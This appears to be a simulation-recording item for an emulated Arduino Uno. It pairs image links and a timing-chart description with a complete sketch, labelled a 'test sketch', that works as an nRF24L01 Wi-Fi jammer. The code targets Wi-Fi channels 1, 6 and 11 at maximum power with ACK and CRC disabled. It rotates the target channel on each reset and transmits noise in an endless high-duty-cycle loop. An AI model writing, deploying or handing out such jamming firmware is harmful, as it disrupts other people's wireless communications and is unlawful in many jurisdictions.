
Recording of a sketch running on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH). EEPROM starts erased; no radio packets arrive unless stated; what the sketch prints to the serial monitor is not drawn. At 2.8 s the program stops and its outputs stay as they are.

Above: at 0.1 s.
At 0.5 s:

Timing chart, 0 to 2.0 s (numbered marks = the images above):


The sketch:

Jx.ino
```cpp
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>
#include <EEPROM.h>

/* * RF Engineer Test Sketch: nRF24L01 PA+LNA Jammer
 * Targeted Wi-Fi Channels: 1, 6, 11
 */

// CE on Pin 9, CSN on Pin 10
RF24 radio(9, 10);

const int EEPROM_CHANNEL_ADDR = 0;
const int LED_PIN = 8;

/* * REASONING:
 * nRF Frequency = 2400 + Register Value
 * Wi-Fi Ch 1 (2.412 GHz) -> Register 12
 * Wi-Fi Ch 6 (2.437 GHz) -> Register 37
 * Wi-Fi Ch 11 (2.462 GHz) -> Register 62
 */
const byte focusedChannels[] = {12, 37, 62};
const int NUM_FOCUSED_CHANNELS = sizeof(focusedChannels);

void setup() {
  Serial.begin(9600);
  pinMode(LED_PIN, OUTPUT);
  digitalWrite(LED_PIN, LOW);

  // 1. CHANNEL MANAGEMENT
  int currentChannelIndex = EEPROM.read(EEPROM_CHANNEL_ADDR);

  // Validation and cycling
  if (currentChannelIndex >= NUM_FOCUSED_CHANNELS || currentChannelIndex < 0) {
    currentChannelIndex = 0;
  }

  // 2. RADIO CONFIGURATION
  radio.begin();
  radio.setPALevel(RF24_PA_MAX);      // Full power for PA+LNA hardware
  radio.setDataRate(RF24_2MBPS);      // Max bandwidth (approx 2MHz spread)
  radio.setAutoAck(false);            // Disable ACK for pure TX
  radio.setRetries(0, 0);
  radio.setCRCLength(RF24_CRC_DISABLED);
  radio.setPayloadSize(32);
  radio.setChannel(focusedChannels[currentChannelIndex]);

  // Power down temporarily to ensure maximum current for LEDs
  radio.powerDown();

  // 3. PHASE 1: LED IDENTIFICATION (Visual Feedback)
  // 1 blink = Wi-Fi Ch 1 | 2 blinks = Wi-Fi Ch 6 | 3 blinks = Wi-Fi Ch 11
  int blinks = currentChannelIndex + 1;
  for (int i = 0; i < blinks; i++) {
    digitalWrite(LED_PIN, HIGH); delay(400);
    digitalWrite(LED_PIN, LOW);  delay(400);
  }

  // 4. INCREMENT EEPROM (For next power cycle/reset)
  int nextChannelIndex = (currentChannelIndex + 1) % NUM_FOCUSED_CHANNELS;
  EEPROM.update(EEPROM_CHANNEL_ADDR, nextChannelIndex);

  // 5. PHASE 2: STABILIZATION & SERIAL LOGGING
  Serial.print(F("Current Setup: "));
  if(currentChannelIndex == 0) Serial.println(F("Targeting Wi-Fi Ch 1 (2412MHz)"));
  if(currentChannelIndex == 1) Serial.println(F("Targeting Wi-Fi Ch 6 (2437MHz)"));
  if(currentChannelIndex == 2) Serial.println(F("Targeting Wi-Fi Ch 11 (2462MHz)"));
  delay(2000);

  // 6. PHASE 3: COMMENCE TRANSMISSION
  radio.powerUp();
  radio.stopListening();
  radio.flush_tx();
}

void loop() {
  // 0xAA creates a 10101010 bit pattern, ideal for maximizing RF noise
  byte buffer[32];
  memset(buffer, 0xAA, 32);

  // High-density "Firehose" loop
  while (true) {
    // startFastWrite provides the highest duty cycle for interference
    radio.startFastWrite(buffer, 32, true);

    // Safety yield for the MCU watchdog
    static uint16_t watchdog = 0;
    if (watchdog++ > 2000) {
      yield();
      watchdog = 0;
    }
  }
}
```
